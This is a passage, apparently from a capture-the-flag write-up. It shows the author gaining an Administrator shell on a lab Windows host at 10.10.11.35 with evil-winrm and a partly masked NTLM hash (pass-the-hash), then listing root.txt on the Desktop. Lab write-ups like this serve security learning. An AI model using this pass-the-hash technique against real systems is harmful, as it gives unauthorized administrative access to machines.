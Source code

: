 ```
┌─[francesco@parrot]─[~]
└──╼ $evil-winrm -i 10.10.11.35 -u Administrator -H "2b87e7c93a3e8a0ea4a*************"
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         2/13/2025   3:02 AM             34 root.txt
```

And we are root!!!



